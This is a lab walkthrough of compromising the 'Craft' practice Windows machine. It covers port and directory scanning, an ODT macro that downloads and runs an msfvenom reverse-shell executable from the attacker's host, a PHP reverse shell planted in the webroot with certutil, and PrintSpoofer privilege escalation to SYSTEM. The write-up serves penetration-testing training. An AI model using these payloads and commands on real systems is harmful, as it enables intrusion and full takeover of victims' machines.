Difficulty: Intermediate
Given “Craft OS” Credentials:
thecybergeek:ABasedHacker!
Environment Setup
export IP=192.168.127.169
export IP=192.168.105.169
Service Enumeration
Host seems to block ping probes, need to use -Pn with nmap:
nmap -T4 -F $IP -Pn
Host is up (0.098s latency).
Not shown: 99 filtered tcp ports (no-response)
PORT STATE SERVICE
80/tcp open http
I’ll start a more comprehensive scan while taking a look at web:
nmap -sC -sV -T4 -Pn -p- -oA full_tcp $IP
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Craft
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
Port 80 - HTTP

whatweb http://IP/
http://192.168.127.169/ [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], Email[admin@craft.offs], HTML5, HTTPServer[Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7], IP[192.168.127.169], OpenSSL[1.1.1k], PHP[8.0.7], Script, Title[Craft], X-Powered-By[PHP/8.0.7]
The language is PHP, the server is Apache and we have a potential username, “admin” to keep in mind.
At http://192.168.127.169/#signup there is a form that allows us to upload a file. We may be able to abuse this to gain remote code execution, depending on two factors:
- Can we access uploaded files publicly
- Can we upload a file that can be used for RCE, like a webshell
Fuzzing for directories, I quickly found that directory listing seems to be enabled on the web server, and there are multiple directories that may allow us to access uploaded files, namely /uploads.
ffuf -u $URL/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
...
uploads [Status: 301, Size: 344, Words: 22, Lines: 10, Duration: 92ms]
assets [Status: 301, Size: 343, Words: 22, Lines: 10, Duration: 106ms]
css [Status: 301, Size: 340, Words: 22, Lines: 10, Duration: 116ms]
js [Status: 301, Size: 339, Words: 22, Lines: 10, Duration: 106ms]
licenses [Status: 403, Size: 423, Words: 37, Lines: 12, Duration: 110ms]
...

I tried uploading a PHP reverse shell but was prevented with this message:

Even after uploading an ODT file, I didn’t see it listed in /uploads. However, we might be able upload an ODT which runs a macro when opened to gain initial access.
Initial Access via ODT Macro
I used this GitHub repo to take the right steps and payloads: https://github.com/jotyGill/macro-generator
export LHOST=192.168.45.201 && export LPORT=443
Create reverse shell payload:
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o rshell.exe
Generate a macro:
python3 macro-generator.py --host $LHOST --port $LPORT -r ':80/rshell.exe'
REM ***** BASIC *****
Sub Main
Shell("cmd /c powershell iwr 'http://192.168.45.201/rshell.exe' -o 'C:/windows/tasks/rshell.exe'")
Shell("cmd /c 'C:/windows/tasks/rshell.exe'")
End Sub
Make sure to embed in the document and set its event to Document Open:

(Tools > Macros > Organize Macros > Basic)


Then save the document when finished to include the macro changes.
Start an HTTP server for the EXE reverse shell payload and open a netcat listener to receive the reverse shell connection.
python3 -m http.server 80
nc -lnvp 443
Upload the ODT file:

I had to upload it twice — on the first attempt I saw it download the file from my HTTP server, but it didn’t execute to open a shell until I uploaded the same document once again. Also, it seems this can be finicky, so it may be necessary to reset the machine after other failures.

Find local.txt in C:\Users\thecybergeek\Desktop:

Privilege Escalation
systeminfo
Host Name: CRAFT
OS Name: Microsoft Windows Server 2019 Standard
OS Version: 10.0.17763 N/A Build 17763
OS Manufacturer: Microsoft Corporation
OS Configuration: Standalone Server
OS Build Type: Multiprocessor Free
Registered Owner: Windows User
Registered Organization:
Product ID: 00429-70000-00000-AA409
Original Install Date: 5/28/2021, 2:52:51 AM
System Boot Time: 3/4/2025, 12:22:45 PM
System Manufacturer: VMware, Inc.
System Model: VMware7,1
System Type: x64-based PC
Processor(s): 1 Processor(s) Installed.
[01]: AMD64 Family 25 Model 1 Stepping 1 Aut
henticAMD ~2650 Mhz
BIOS Version: VMware, Inc. VMW71.00V.21100432.B64.23011103
04, 1/11/2023
Windows Directory: C:\Windows
System Directory: C:\Windows\system32
Boot Device: \Device\HarddiskVolume2
System Locale: en-us;English (United States)
Input Locale: en-us;English (United States)
Time Zone: (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory: 2,047 MB
Available Physical Memory: 925 MB
Virtual Memory: Max Size: 3,071 MB
Virtual Memory: Available: 2,113 MB
Virtual Memory: In Use: 958 MB
Page File Location(s): C:\pagefile.sys
Domain: WORKGROUP
Logon Server: N/A
Hotfix(s): 9 Hotfix(s) Installed.
[01]: KB5003541
[02]: KB4512577
[03]: KB4535680
[04]: KB4577586
[05]: KB4580325
[06]: KB4589208
[07]: KB5003243
[08]: KB5003711
[09]: KB5004947
Network Card(s): 1 NIC(s) Installed.
[01]: vmxnet3 Ethernet Adapter
Connection Name: Ethernet0 2
DHCP Enabled: No
IP address(es)
[01]: 192.168.105.169
[02]: fe80::9e6:7262:d078:ad40
Hyper-V Requirements: A hypervisor has been detected. Features required for Hyper-V will not be displayed.
whoami /priv
Privilege Name Description State
============================= ============================== ========
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeCreateGlobalPrivilege Create global objects Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
No interesting privileges
In C:\ I find a file output.txt:
**********************
Windows PowerShell transcript start
Start time: 20250705091332
Username: CRAFT\Administrator
RunAs User: CRAFT\Administrator
Configuration Name:
Machine: CRAFT (Microsoft Windows NT 10.0.17763.0)
Host Application: C:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy bypass -File C:\freezeScript\win10.ps1
Process ID: 2992
PSVersion: 5.1.17763.1971
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.17763.1971
BuildVersion: 10.0.17763.1971
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
Transcript started, output file is C:\output.txt
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.
Uninstalled product key successfully.
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.
Key Management Service machine name set to external.kms.ospl.offseclabs.com successfully.
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.
Installed product key N69G4-B89J2-4G8F4-WWYCC-J464C successfully.
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.
Activating Windows(R), ServerStandard edition (de32eafd-aaee-4662-9444-c1befb41bde2) ...
Error: 0xC004F074 The Software Licensing Service reported that the computer could not be activated.
No Key Management Service (KMS) could be contacted. Please see the Application Event Log for additio
nal information.
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.
Software licensing service version: 10.0.17763.2028
Name: Windows(R), ServerStandard edition
Description: Windows(R) Operating System, VOLUME_KMSCLIENT channel
Activation ID: de32eafd-aaee-4662-9444-c1befb41bde2
Application ID: 55c92734-d682-4d71-983e-d6ec3f16059f
Extended PID: 03612-04297-000-000000-03-1033-17763.0000-1862025
Product Key Channel: Volume:GVLK
Installation ID: 189844539606059265855451803261440643485915018321605276862695924
Partial Product Key: J464C
License Status: Notification
Notification Reason: 0xC004F00F.
Remaining Windows rearm count: 1001
Remaining SKU rearm count: 1001
Trusted time: 7/5/2025 9:13:33 AM
Configured Activation Type: All
Please use slmgr.vbs /ato to activate and update KMS client information in order to update values.
**********************
Windows PowerShell transcript end
End time: 20250705091333
**********************This shows the Administrator account ran a script at C:\freezeScript\win10.ps1, although it’s no longer available there.
In C:\ I did notice there is an xampp directory, which presumably contains the web application which we interacted with earlier. I’m not very familiar with xampp so I checked the config in C:\xampp\apache\conf\httpd.conf to find the DocumentRoot (webroot), which is “/xampp/htdocs”.

Further, we’re able to write to this location and access it publicly:


I’ll use a Windows PHP reverse shell, start an HTTP server, and curl it from the target machine with certutil -urlcache -split -f http://192.168.45.201/rshell.php.
Now I’ll start a listener on the port set in my rshell.php (I used 445) and make a curl request to run the shell.
nc -lnvp 445
curl http://$IP/rshell.php

As the apache user, we have a noticeable escalation of privileges —SeImpersonatePrivilege can be used by multiple exploits. Since we’re on build 10.0.17763.1971, we can use PrintSpoofer. I’ll download it (64 edition) to my attacking machine and transfer to the target machine as the apache users we did earlier for other payloads.
Finally, we can execute it as apache with .\PrintSpoofer.exe -i -c cmd to become System. The root flag is in C:\Users\Administrator\Desktop\proof.txt.
